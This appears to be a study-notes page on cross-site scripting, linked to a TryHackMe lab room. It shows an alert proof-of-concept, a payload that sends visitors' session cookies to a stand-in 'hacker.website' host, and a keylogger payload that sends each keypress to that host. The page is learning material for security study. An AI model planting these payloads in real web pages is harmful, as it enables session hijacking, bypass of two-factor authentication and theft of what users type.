 # XSS and Javascript vulnerabilities

[![xssgi](../../../_badges/xssgi.svg)](https://tryhackme.com/room/xssgi)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS');</script>
```

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```js
<script>fetch('https://hacker.website/steal?cookie=' + btoa(document.cookie));</script>
```
</div><div>

**A simple keylogger**: send each key pressed is sent to the hacker website. The script is using `btoa()` to encode in base64 the values.

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.website/keylogger?key=' + btoa(e.key) )}</script>
```

<br>

**Exploit the client privileges**: when a client is logged, then can do things on the website. Sometimes, the website is using an API, and the malicious code may use the client identify to do API calls, such as resetting the password, or stuff like that.
</div></div>